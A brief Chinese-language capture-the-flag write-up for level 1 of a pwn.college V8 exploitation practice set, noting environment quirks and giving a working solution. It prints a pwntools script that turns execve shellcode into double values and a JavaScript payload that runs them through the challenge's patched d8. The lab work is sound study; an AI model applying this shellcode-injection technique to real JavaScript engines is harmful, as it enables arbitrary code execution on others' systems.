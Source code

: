 # Practice-Pwncollege

https://pwn.college/quarterly-quiz/v8-exploitation 提供了一些练习，需要注册账号。每道题目都有start和practice选项，区别在于practice提供的环境可以用sudo。我刚开始没意识到这点，准备调试d8的时候提示permission denied。加个sudo就解决了

题目提供的环境自带pwndbg，不过要用`pwndbg`命令唤起，而不是`gdb`。环境的workspace和desktop是互通的，在workspace里改动的文件能在desktop里看到，反之亦然

## level1

整个patch文件都是bug，将double数组里的元素拷贝到mmap的一块rwx内存后执行。直接生成shellcode后转成double类型即可
```py
from pwn import *
import struct
context.arch='amd64'
shellcode=asm(shellcraft.execve('/challenge/catflag', 0, 0))
exp=[]
for i in range(0,len(shellcode),8):
    exp.append(struct.unpack('d', shellcode[i:i+8].ljust(8,b'\x00'))[0])
print(exp)
```
```js
let shellcode=[2.820972645905851e-134, 3.0758087950517603e+180, 2.2354425876138794e+40, 3.68572438550025e+180, 1.054512194375715e-68, 2.748715909248e-311];
shellcode.run();
```
注意shellcode要执行题目自带的`catflag`而不是sh